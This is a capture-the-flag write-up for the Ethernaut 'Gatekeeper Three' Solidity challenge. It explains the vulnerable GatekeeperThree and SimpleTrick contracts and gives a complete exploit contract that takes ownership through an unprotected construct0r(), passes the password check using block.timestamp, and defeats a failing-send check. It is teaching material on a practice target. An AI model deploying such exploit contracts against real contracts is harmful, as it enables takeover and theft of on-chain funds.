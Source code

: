 # Writeup for Gatekeeper Three

- Hello h4ck3r, welcome to the world of smart contract hacking. Solving the challenges from Ethernaut will help you understand Solidity better. Each challenge involves deploying a contract and exploiting its vulnerabilities. If you're new to Solidity and haven't deployed a smart contract before, you can learn how to do so using Remix [here](https://youtu.be/3xNFZI8Ste4?si=i3cWN87OpX85zp6k).

### Challenge Description

Cope with gates and become an entrant.

Things that might help:

- Recall return values of low-level functions.
- Be attentive with semantic.
- Refresh how storage works in Ethereum.

### Contract Explaination

If you understand the contract, you can move on to the [exploit](#exploit) part. If you're a beginner, please read the Contract Explanation to gain a better understanding of Solidity.

Click [here](./src/contracts/GatekeeperThree.sol) to view the contract source code.

<details>
<summary>Click to view the contract explanation</summary>

First i will explain the `SimpleTrick` contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint256 private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}
```

The `SimpleTrick` contract has three state variables named `target`, `trick`, and `password`. The `target` is of type `GatekeeperThree` (address), `trick` is of type **address**, and `password` is of type **uint256** and is initialized to `block.timestamp`.

```solidity
constructor(address payable _target) {
    target = GatekeeperThree(_target);
}

```

The `constructor` takes an address of payable type as input and initializes the `target` with a `GatekeeperThree` instance of the address passed.

```solidity
function checkPassword(uint256 _password) public returns (bool) {
    if (_password == password) {
        return true;
    }
    password = block.timestamp;
    return false;
}

```

The function `checkPassword()` takes an argument of type **uint256** (\_password) as input and compares the \_password passed with the `password` stored in the contract. If both match, it will return `true`. If not, it will set the password to `block.timestamp` and return `false`.

```solidity

function trickInit() public {
    trick = address(this);
}
```

The `trickInit()` function sets the `trick` variable to `address(this)` (the contract address of the `SimpleTrick` contract).

```solidity
function trickyTrick() public {
    if (address(this) == msg.sender && address(this) != trick) {
        target.getAllowance(password);
    }
}
```

The function `trickyTrick()` is a public function. It checks if the `msg.sender` (caller) is the `SimpleTrick` contract and if `trick` is not the `SimpleTrick` contract address. If both conditions are satisfied, it will call the `getAllowance()` function in the `GatekeeperThree` contract by passing the `password` as an argument.

Now i will explain the `GatekeeperThree` contract.

```solidity
contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

    function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}
```

The contract has 4 state variables named owner, entrant, allowEntrance, trick.

```solidity
function construct0r() public {
        owner = msg.sender;
    }
```

The `construct0r()` function sets the `owner` to `msg.sender` (the caller or deployer of the contract).

```solidity
modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
}
```

The modifier `gateOne` will check if `msg.sender` (caller) is the `owner`. If the caller is not the `owner`, it will revert. It also checks whether `tx.origin` (transaction initiator EOA) is the `owner` or not. If `tx.origin` is the `owner`, it will revert.

```solidity
modifier gateTwo() {
    require(allowEntrance == true);
    _;
}
```

```solidity
modifier gateTwo() {
    require(allowEntrance == true);
    _;
}
```

The modifier gateTwo will check if the allowEntrance is true or not. If it is not true then it will revert.

```solidity
modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
        _;
    }
}
```

The modifier `gateThree` will check if the balance of the `GatekeeperThree` contract is greater than 0.001 ether and if the return value of the `send()` function is false. If the `send()` function returns true or the contract balance is less than 0.001 ether, the function implementing this modifier will not execute.

One important thing to observe here is that even if the condition fails, the function call won't revert because the modifier is not reverting. So, if the condition in the modifier fails, it won't revert the function, but it also won't execute the function because `_` is inside the `if` condition. The function will be executed only if the the modifier execution reaches the `_;` .

```solidity

function getAllowance(uint256 _password) public {
    if (trick.checkPassword(_password)) {
        allowEntrance = true;
    }
}
```

The `getAllowance()` function takes an argument of type **uint256** (\_password) as input and calls the `checkPassword() `function in the `SimpleTrick` contract. If the `checkPassword()` function returns true, then it sets `allowEntrance` to true.

```solidity
function createTrick() public {
    trick = new SimpleTrick(payable(address(this)));
    trick.trickInit();
}

```

The `createTrick()` function creates a new instance of the `SimpleTrick` contract and assigns the instance to the variable `trick`. Then it calls the `trickInit()` function in the `SimpleTrick` contract.

```solidity
function enter() public gateOne gateTwo gateThree {
    entrant = tx.origin;
}
```

The function `enter()` is a public function that executes the modifiers `gateOne`, `gateTwo`, and `gateThree`. If all the modifiers pass, then it sets the `entrant` to `tx.origin` (initiator of the transaction).

```solidity
receive() external payable {}
```

The contract has a `receive()` function. When someone interacts with this contract by sending some data that doesn't match any function selector, the `receive()` function will be called. It will also be called if someone sends ether to the contract without calling any function.

</details>

### Exploit

Our goal is to become the entrant. The only way we can become the entrant is by calling the enter() function. In order to become the entrant we need to pass the three modifiers. So let's try to pass each modifier one by one. We was given the instance of GatekeeperThree contract.

```solidity
modifier gateOne() {
    require(msg.sender == owner);
    require(tx.origin != owner);
    _;
}

```

This modifier can be passed by setting up our Exploit contract address as the owner and then interacting with the `enter()` function from the Exploit contract. If we do that, `msg.sender` will be our Exploit contract address and `owner` will also be our Exploit contract address. Then `tx.origin` will be our wallet address since we are calling the function in our Exploit contract and that function is calling the `enter()` function. So the `tx.origin` (EOA) won't be equal to the Exploit contract address.

We set up our `Exploit` contract address as owner by calling the `construct0r()` function in `GatekeeperThree` contract.

Now lets pass the Second Gate.

```solidity
modifier gateTwo() {
    require(allowEntrance == true);
    _;
}
```

The modifier `gateTwo` can be passed by setting the `allowEntrance` variable to `true`. The `allowEntrance` value depends on the `getAllowance()` function. If we pass the password to `getAllowance()`, it calls the `checkPassword()` function in the `SimpleTrick` contract and checks if the password is correct. If it is correct, it will return `true`.

If we see the `checkPassword()` function in the `SimpleTrick` contract, it compares the `_password` passed as an argument with the `password` stored in the state variable. If both match, it will return `true`. So, in order to know the correct password, we need to check the value at slot 2 in the `SimpleTrick` contract because the password is stored in slot 2. In order to check the value at slot 2, we need the contract address of the SimpleTrick contract. They didn't give the address of the SimpleTrick contract. They gave us the instance of the GatekeeperThree contract.

In the GatekeeperThree contract, the 4th state variable is the address of the SimpleTrick contract. From that, we can know the address of the SimpleTrick contract. So now it's time to open the console.

```javascript
await contract.trick();
```

It will return `0x0000000000000000000000000000000000000000`, which means the SimpleTrick contract is not deployed. However, if we look at the `createTrick()` function, it will create an instance of the SimpleTrick contract and assign it to trick. We are the ones calling the `createTrick()` function and making the instance of the SimpleTrick contract. Instead of calling the `createTrick()` function in the console, if we call it from our Exploit contract, it will be easier for us to get the password because the password is set to `block.timestamp` in SimpleTrick contract. Since we are calling `createTrick()` from our Exploit contract, we can call it from a function in the Exploit contract and within that function, we can call the `getAllowance()` function and directly pass `block.timestamp` to it, which will allow us to pass the second gate successfully.

Till here how Exploit contract will look like the following.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGateKeeperThree{
    function enter() external;
    function construct0r() external;
    function getAllowance(uint256 _password) external;
    function createTrick() external;
}

contract ExploitGateKeeperThree{
    IGateKeeperThree gateKeeperThree;

    constructor(address _addr){
        gateKeeperThree=IGateKeeperThree(_addr);
    }

    function Exploit()public payable{
        gateKeeperThree.construct0r();
        gateKeeperThree.createTrick();
        gateKeeperThree.getAllowance(block.timestamp);
        gateKeeperThree.enter();

    }
}
```

Now we also need to pass modifier three. So we need make some more calls in the Exploit() function before the enter() function.

```solidity
modifier gateThree() {
    if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
        _;
    }
}
```

The modifier `gateThree()` will check if the contract has a balance greater than 0.001 ether. So, we need to send the `GatekeeperThree` contract some ether, more than 0.001 ether. Another condition it checks is when it tries to send some ether to the `owner` (Exploit contract), it expects the transaction to return false, which means the transaction should fail. If our Exploit contract doesn't have the `receive()` function, then this condition will be satisfied.

So now, in our `Exploit()` function, before calling `enter()`, we need to send ether greater than `0.001 ether`to the `GatekeeperThree` contract. Below is the final `Exploit` contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGateKeeperThree{
    function enter() external;
    function construct0r() external;
    function getAllowance(uint256 _password) external;
    function createTrick() external;
}


contract ExploitGateKeeperThree{
    IGateKeeperThree gateKeeperThree;

    constructor(address _addr){
        gateKeeperThree=IGateKeeperThree(_addr);

    }

    function Exploit()public payable{
        gateKeeperThree.construct0r();
        gateKeeperThree.createTrick();
        gateKeeperThree.getAllowance(block.timestamp);
        address(gateKeeperThree).call{value:1000000000000001}("");
        gateKeeperThree.enter();
    }
}

```

Once you deploy this Exploit contract and call Exploit() function the challenge will be solved. Hope you enjoyed this challenge.

### Key takeaways

When someone is sending ether to a contract and if the contract doesn't have a receive() function, the transaction will fail.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>

